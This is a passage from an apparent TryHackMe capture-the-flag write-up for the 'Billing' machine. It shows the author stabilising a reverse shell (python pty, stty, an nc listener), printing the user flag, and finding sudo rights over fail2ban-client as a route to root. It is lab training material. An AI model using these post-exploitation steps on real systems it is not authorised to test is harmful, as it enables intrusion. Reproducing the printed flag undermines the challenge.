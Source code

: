   ```
  $ whoami
  asterisk
  ```
  
- LEGOOOOOOOOO! I got in, perfect, now hunting for flags is the last job.

---

## 🧍 User Privilege Escalation

- Alrighty, finding user flag is always pretty easy, so lets do it! Before hunting, I changed the shell to pty just so I can be more comfortable.
  ```
  python3 -c "import pty; pty.spawn('/bin/bash')"  

  $ python3 -c 'import pty;pty.spawn("/bin/bash");'
  asterisk@Billing:/var/www/html/mbilling/lib/icepay$ ^Z
  zsh: suspended  nc -lvnp 4444
                                                                                                                       
  ┌──(mauzware㉿mauz)-[~/…/tryhackme/CTFs/EASY/Billing]
  └─$ stty raw -echo;fg
  [2]  - continued  nc -lvnp 4444
                                 export TERM=xterm
  ```
  
- Now that I'm set up, finding user flag is pretty simple with `find` command.
  ```
  find /home -name user.txt 2>/dev/null
  /home/magnus/user.txt
  ```
  
- There it is, first flag done!
  ```
  cat /home/magnus/user.txt
  THM{4a6831d5f124b25eefb1e92e0f0da4ca}
  ```

---

## 👑 Root Privilege Escalation

- OK, so this part was really challenging for me, I tried various different things to get to root but couldnt do it. In the end, I did it, but honestly it took me approximately 2 hours to gain root privileges...
  
- I am not going to write here all the options that I tried that wasn't successfull, I'll only write the commands that gave me root access so here we go. Also, keep in mind that there are few options to exploit fail2ban and gain root!
  
- So I found `fail2ban` with `sudo -l` and I also tried to enumerate various different things in order to get root, but it was unsuccessfull.
  ```
  $ sudo -l
  Matching Defaults entries for asterisk on Billing:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
  
  Runas and Command-specific defaults for asterisk:
      Defaults!/usr/bin/fail2ban-client !requiretty
  
  User asterisk may run the following commands on Billing:
      (ALL) NOPASSWD: /usr/bin/fail2ban-client
  ```
